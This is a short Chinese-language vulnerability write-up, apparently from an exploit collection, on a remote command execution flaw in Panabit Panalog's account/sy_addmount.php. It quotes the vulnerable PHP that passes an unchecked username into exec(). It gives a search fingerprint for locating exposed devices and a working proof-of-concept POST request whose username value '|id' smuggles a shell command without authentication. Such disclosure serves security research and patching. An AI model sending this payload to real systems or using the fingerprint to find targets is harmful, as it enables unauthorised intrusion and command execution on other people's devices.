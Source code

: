 # Panabit Panalog sy_addmount.php 远程命令执行漏洞

## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>Panabit Panalog</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Maintain/cloud_index.php"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1628866447890-ec66a2c3-2dab-4500-a9a8-a68823931f3c.png)

存在漏洞的代码为 **account/sy_addmount.php**

```bash
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```bash
POST /account/sy_addmount.php

username=|id
```

![img](/assets/PeiQi-Wiki/img/1678237279001-8e9ce97e-d0d5-44c0-b2b1-e1e9550c6e3a.png)